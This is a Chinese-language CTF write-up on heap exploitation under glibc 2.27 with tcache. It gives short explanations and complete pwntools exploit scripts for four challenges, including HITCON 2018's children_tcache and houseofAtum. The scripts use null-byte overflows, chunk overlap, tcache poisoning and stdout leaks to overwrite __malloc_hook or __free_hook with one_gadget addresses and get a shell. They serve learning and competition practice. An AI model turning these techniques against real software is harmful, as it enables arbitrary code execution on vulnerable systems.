

写几个在TCache结构下LIBC为2.27的环境下的题,之前学习TCache结构的例题,做一遍看看.
后续会不定时更新此栏.
由于本地环境为KALI的2.29版本,因此利用了加载指定LIBC文件运行调试，相关细节点击此处
children_tcache
HITCON 2018的题,有null by one漏洞,通过overlap以取得堆块重叠,然后在malloc_hook上写OG,关键点在于利用strcpy清除chunk2的presize域
1 | from pwn import* |
2 | from LD import* |
3 | #context(log_level='debug',arch='amd64',os='linux') |
4 | def add(size,data): |
5 | p.sendlineafter('Your choice: ','1') |
6 | p.sendlineafter('Size:',str(size)) |
7 | p.sendafter('Data:',data) |
8 | def show(index): |
9 | p.sendlineafter('Your choice: ','2') |
10 | p.sendlineafter('Index:',str(index)) |
11 | def free(index): |
12 | p.sendlineafter('Your choice: ','3') |
13 | p.sendlineafter('Index:',str(index)) |
14 | #p = process('./main') |
15 | LD=change_ld('./main','./ld-2.27.so') |
16 | p = LD.process(env={'LD_PRELOAD':'./libc-2.27.so'}) |
17 | libc = ELF('./libc-2.27.so',checksec=False) |
18 | add(0x500,'\n') #0 |
19 | add(0x68,'\n') #1 |
20 | add(0x4F0,'\n') #2 |
21 | add(0x20,'\n') #3 |
22 | free(1) |
23 | free(0) |
24 | for i in range(9): |
25 | add((0x68-i),'U'*(0x68 - i)) |
26 | free(0) |
27 | add(0x68,'U'*0x60 + p64(0x580)) |
28 | free(2) |
29 | add(0x500,'\n') |
30 | show(0) |
31 | libc_base = u64(p.recv(6).ljust(8,'\x00')) - 0x60 - libc.sym['__malloc_hook'] - 0x10 |
32 | libc.address = libc_base |
33 | malloc_hook = libc.sym['__malloc_hook'] |
34 | realloc_hook = libc.sym['__realloc_hook'] |
35 | og = [0x4F2C5,0x4F322,0x10A38C] |
36 | add(0x68,'\n') |
37 | free(2) |
38 | free(0) |
39 | add(0x68,p64(malloc_hook)) |
40 | add(0x68,'\n') |
41 | add(0x68,p64(og[1]+libc_base)) |
42 | p.sendlineafter('Your choice: ','1') |
43 | p.sendlineafter('Size:','16') |
44 | p.interactive() |
下载
baby_tcache
有一个null by one漏洞,和上一题类似的做法,只是少了show函数,故此处利用IO中stdout的任意读打印libc地址,然后写free_hook为one_gadget(malloc_hook也能打通)
1 | from pwn import* |
2 | from LD import* |
3 | def add(size,data): |
4 | p.sendlineafter('Your choice: ','1') |
5 | p.sendlineafter('Size:',str(size)) |
6 | p.sendafter('Data:',data) |
7 | def free(index): |
8 | p.sendlineafter('Your choice: ','2') |
9 | p.sendlineafter('Index:',str(index)) |
10 | |
11 | libc = ELF('./libc-2.27.so',checksec=False) |
12 | LD=change_ld('./main','./ld-2.27.so') |
13 | context.log_level ='debug' |
14 | p = LD.process(env={'LD_PRELOAD':'./libc-2.27.so'}) |
15 | add(0x500,'\n') |
16 | add(0x68,'\n') |
17 | add(0x4F0,'\n') |
18 | add(0x20,'\n') |
19 | free(1) |
20 | free(0) |
21 | for i in range(9): |
22 | add((0x68-i),'U'*(0x68 - i)) |
23 | free(0) |
24 | add(0x68,'U'*0x60 + p64(0x580)) |
25 | free(2) |
26 | free(0) |
27 | add(0x500,'\n') |
28 | add(0x78,'\x60\x07') |
29 | add(0x68,'\n') |
30 | payload = p64(0xFBAD1800) + p64(0)*3 + '\xC8' |
31 | add(0x68,payload) |
32 | libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.sym['_IO_2_1_stdin_'] |
33 | log.info('LIBC_BASE:\t'+hex(libc_base)) |
34 | libc.address = libc_base |
35 | og = [0x4F2C5,0x4F322,0x10A38C] |
36 | one_gadget = libc_base + og[1] |
37 | free(2) |
38 | free(1) |
39 | add(0x78,p64(libc.sym['__free_hook'])) |
40 | add(0x78,'\n') |
41 | add(0x78,p64(one_gadget)) |
42 | free(3) |
43 | p.interactive() |
下载
babyheap
和第一题方法一样,由于无须清理参与垃圾字符,相对来说简单了很多,直接shrink chunk后利用overlap改malloc_hook为one_gadget
1 | from pwn import* |
2 | from LD import* |
3 | def add(size,data): |
4 | p.sendlineafter('Your choice :','1') |
5 | p.sendlineafter('Size:',str(size)) |
6 | p.sendafter('Data: ',data) |
7 | def free(index): |
8 | p.sendlineafter('Your choice :','2') |
9 | p.sendlineafter('Index: ',str(index)) |
10 | def show(): |
11 | p.sendlineafter('Your choice :','3') |
12 | libc = ELF('./libc-2.27.so',checksec=False) |
13 | LD=change_ld('./main','./ld-2.27.so') |
14 | p = LD.process(env={'LD_PRELOAD':'./libc-2.27.so'}) |
15 | context.log_level = 'DEBUG' |
16 | add(0x500,'FMYY\n') |
17 | add(0x28,'FMYY\n') |
18 | add(0x4F0,'FMYY\n') |
19 | add(0x10,'FMYY\n') |
20 | free(0) |
21 | free(1) |
22 | add(0x28,'\x00'*0x20 + p64(0x540)) |
23 | free(2) |
24 | add(0x500,'FMYY\n') |
25 | show() |
26 | p.recvuntil('0 : ') |
27 | libc_base = u64(p.recv(6).ljust(8,'\x00')) - 0x60 - libc.sym['__malloc_hook'] - 0x10 |
28 | libc.address = libc_base |
29 | og = [0x4F2C5,0x4F322,0x10A38C] |
30 | add(0x48,'FMYY\n') |
31 | free(2) |
32 | free(0) |
33 | add(0x48,p64(libc.sym['__free_hook']) + '\n') |
34 | add(0x48,'FMYY\n') |
35 | add(0x48,p64(libc_base+og[1]) + '\n') |
36 | free(3) |
37 | p.interactive() |
下载
houseofAtum
此题利用fastbin链和tcache链fd域的指向错位0x10个字节以及申请的空间为0x48则向下一个块借位,然后可以控制某个块的size域和presize域

且首先在此块的前一个块的末尾伪造presize和size域与0x48不同,释放后从而将块放入除0x50字节的其他tcache链
然后需要控制的空间位于struct_entry之前不超过0x48个字节即可控制住0x50大小的tcache链的下一个欲申请块
则下一个块申请到struct结构处,即heap_base+0x10控制tcache_count全部为-1,后将tcache结构的块释放掉则会进入unsorted bin
因此取得libc_base,然后再次利用之前struct_entry附近的块控制下一个块的地址为free_hook,从而在其处写上one_gadget
1 | from pwn import* |
2 | from LD import* |
3 | def add(content): |
4 | p.sendlineafter('Your choice:','1') |
5 | p.sendafter('Input the content:',content) |
6 | def free(index,sign): |
7 | p.sendlineafter('Your choice:','3') |
8 | p.sendlineafter('idx:',str(index)) |
9 | p.sendlineafter('Clear?(y/n):',sign) |
10 | def show(index): |
11 | p.sendlineafter('Your choice:','4') |
12 | p.sendlineafter('idx:',str(index)) |
13 | def edit(index,content): |
14 | p.sendlineafter('Your choice:','2') |
15 | p.sendlineafter('idx:',str(index)) |
16 | p.sendafter('Input the content:',content) |
17 | libc = ELF('./libc-2.27.so',checksec=False) |
18 | LD=change_ld('./main','./ld-2.27.so') |
19 | p = LD.process(env={'LD_PRELOAD':'./libc-2.27.so'}) |
20 | context.log_level = 'DEBUG' |
21 | add('FMYY') #0 |
22 | add('FMYY') #1 |
23 | free(0,'N') |
24 | free(1,'N') |
25 | show(1) |
26 | p.recvuntil('Content:') |
27 | heap_base = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - 0x260 |
28 | for i in range(5): |
29 | free(0,'N') |
30 | free(1,'y') |
31 | free(0,'y') |
32 | payload = p64(0)*7 + p64(0x91) + p64(heap_base + 0x50) |
33 | add(payload) |
34 | add('FMYY') |
35 | free(1,'y') #free the chunk2 to tcache[0x90] |
36 | add('\x00') #heap_base +0x30 |
37 | free(0,'y') |
38 | payload = p64(0)*3 + p64(heap_base + 0x10) |
39 | edit(1,payload) |
40 | add('\xFF'*0x40) |
41 | free(0,'N') |
42 | show(0) |
43 | p.recvuntil('Content:') |
44 | libc_base = u64(p.recvuntil('\x7F').ljust(8,'\x00')) - 0x70 -libc.sym['__malloc_hook'] |
45 | libc.address = libc_base |
46 | free_hook = libc.sym['__free_hook'] |
47 | one_gadget = libc_base +0x4F322 |
48 | edit(0,p64(0x0100000004000000) + '\x00'*0x38) |
49 | free(0,'y') |
50 | edit(1,p64(0)*3 + p64(free_hook)) |
51 | add(p64(one_gadget)) |
52 | p.sendlineafter('Your choice:','3') |
53 | p.sendlineafter('idx:',str(0)) |
54 | p.interactive() |